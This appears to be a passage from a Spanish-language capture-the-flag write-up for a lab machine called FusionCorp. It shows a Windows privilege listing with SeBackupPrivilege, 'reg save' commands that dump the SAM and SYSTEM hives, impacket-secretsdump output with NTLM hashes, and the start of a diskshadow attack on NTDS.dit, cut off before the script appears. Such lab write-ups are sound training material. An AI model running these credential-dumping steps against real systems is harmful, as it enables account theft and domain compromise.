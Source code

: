     
    PRIVILEGES INFORMATION
    ----------------------
    Privilege Name                Description                    State
    ============================= ============================== =======
    SeMachineAccountPrivilege     Add workstations to domain     Enabled
    SeBackupPrivilege             Back up files and directories  Enabled
    SeRestorePrivilege            Restore files and directories  Enabled
    SeShutdownPrivilege           Shut down the system           Enabled
    SeChangeNotifyPrivilege       Bypass traverse checking       Enabled
    SeIncreaseWorkingSetPrivilege Increase a process working set Enabled

-Elevamos privilegios.

  - No funciona, Obtenemos una copia de SAM y SYSTEM del registro de windows donde obtenemos hashes de usuario para posteriormente intentar crakearlos.
    
         -Dumpeamos SAM Y SYSTEM del registro de windows.
     
           reg save hklm\system system
           reg save hklm\sam sam

         -Extraemos los hash del fichero SAM

           ┌──(root㉿kali)-[/home/…/Desktop/ctf/try_ctf/FusionCorp]
          └─# impacket-secretsdump -sam SAM -system SYSTEM LOCAL
          Impacket v0.11.0 - Copyright 2023 Fortra
          
          [*] Target system bootKey: 0xeafd8ccae4277851fc8684b967747318
          [*] Dumping local SAM hashes (uid:rid:lmhash:nthash)
          Administrator:500:aad3b435b51404eeaad3b435b51404ee:2182eed0101516d0a206b98c579565e6:::
          Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
          DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
          [-] SAM hashes extraction for user WDAGUtilityAccount failed. The account doesn't have hash information.
          [*] Cleaning up... 


  - Buscando informacion por internet encontre informacion sobre un fichero llamado NTDS.dit

         INFO:
           El archivo "C:\Windows\NTDS\ntds.dit" (Base de datos de Active Directory)
           es un componente crítico de la base de datos de Microsoft Windows Active Directory.
           Active Directory es un servicio de directorio utilizado por servidores Windows para almacenar
           información sobre objetos en una red, cuentas de usuario, cuentas de computadoras y pertenencias a grupos.

    Informacion del ataque a realizar:
    
      [+]https://book.hacktricks.xyz/v/es/windows-hardening/active-directory-methodology/privileged-groups-and-token-privileges#ataque-a-d
    
      [+]https://learn.microsoft.com/en-us/windows-server/administration/windows-commands/diskshadow
    
      - Abusando de la base de datos de Active Directory NTDS.dit

        1)Creamos el script que va a ejecutar diskshadow y lo subimos a la maquina victima.

            ┌──(root㉿kali)-[/home/…/Desktop/ctf/try_ctf/FusionCorp]
            └─# cat content/script_shadow.txt
        